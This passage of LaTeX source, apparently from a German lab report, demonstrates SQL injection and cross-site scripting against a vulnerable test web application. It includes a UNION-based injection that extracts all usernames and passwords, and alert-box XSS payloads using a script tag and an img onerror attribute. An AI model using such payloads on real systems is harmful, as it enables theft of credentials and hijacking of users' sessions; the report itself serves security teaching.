	\caption{Login mit SQL Injection}
	\label{fig:sql-injection-login-attempt}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=15cm]{sql-injection-login-success.png}
	\caption{Erfolgreiche Anmeldung mit SQL Injection}
	\label{fig:sql-injection-login-success}
\end{figure}

\noindent Um die Möglichkeiten der SQL Injection weiter zu demonstrieren, wurde eine alternative Injection entwickelt, um alle Benutzerdaten zu extrahieren:
\begin{lstlisting}[breaklines]
	' union select 1, group_concat(concat_ws('|', user, password) separator ', '), 'attack' from credentials -- '
\end{lstlisting}
Diese Injection wird ebenfalls als Benutzername eingegeben, während \lstinline|attack| wieder als Passwort verwendet wird. Als Ergebnis enthält der angezeigte Benutzername in der Webanwendung nun alle extrahierten Daten aus der Datenbanktabelle, wie in der folgenden Abbildung zu sehen ist:

\begin{figure}[H]
	\centering
	
\includegraphics[width=14cm]{sql-injection-data-extraction.png}
	\caption{Extraktion aller Benutzerdaten mit SQL Injection}
	\label{fig:sql-injection-data-extraction}
\end{figure}

\FloatBarrier

\subsubsection{Cross-Site Scripting}
Um die Cross-Site Scripting (XSS) Schwachstelle der Webanwendung zu demonstrieren, wurden verschiedene Methoden der Code-Injektion in das Message Board getestet, das nach erfolgreicher Anmeldung zugänglich ist.

\noindent Zunächst wurde ein einfacher JavaScript-Code injiziert, der eine Alert-Box mit dem Text \lstinline|test| anzeigen sollte:
\begin{lstlisting}[breaklines]
	<script>alert('test')</script>
\end{lstlisting}

\begin{figure}[H]
	\centering
	
\includegraphics[width=8cm]{xss-script-injection-fail.png}
	\caption{Fehlgeschlagene Ausführung des JavaScript-Codes}
	\label{fig:xss-script-injection-fail}
\end{figure}

\noindent Trotz erfolgreicher Injektion des Codes geschah jedoch nichts Sichtbares auf der Webseite.

\noindent Bei näherer Untersuchung zeigte sich, dass der Code zwar in den HTML-Quelltext eingefügt wurde, aber von Firefox ignoriert wurde. Dies war an der grauen Hinterlegung im Quelltext erkennbar, wie die folgende Abbildung zeigt:

\begin{figure}[H]
	\centering
	
\includegraphics[width=12cm]{xss-script-injection-html.png}
	\caption{HTML-Quelltext mit grau hinterlegtem JavaScript-Code}
	\label{fig:xss-script-injection-html}
\end{figure}

\noindent Als Alternative wurde ein <img>-Tag mit dem onerror-Attribut verwendet. Diese Methode zielt darauf ab, JavaScript-Code auszuführen, wenn das Laden eines Bildes fehlschlägt:
\begin{lstlisting}[breaklines]
	<img src="" onerror=alert('test')>
\end{lstlisting}

\begin{figure}[H]
	\centering
	
\includegraphics[width=14cm]{xss-img-tag-injection-success.png}
	\caption{Erfolgreiche XSS-Ausführung mit img-Tag}
	\label{fig:xss-img-tag-injection-success}
\end{figure}
\begin{figure}[H]
	\centering
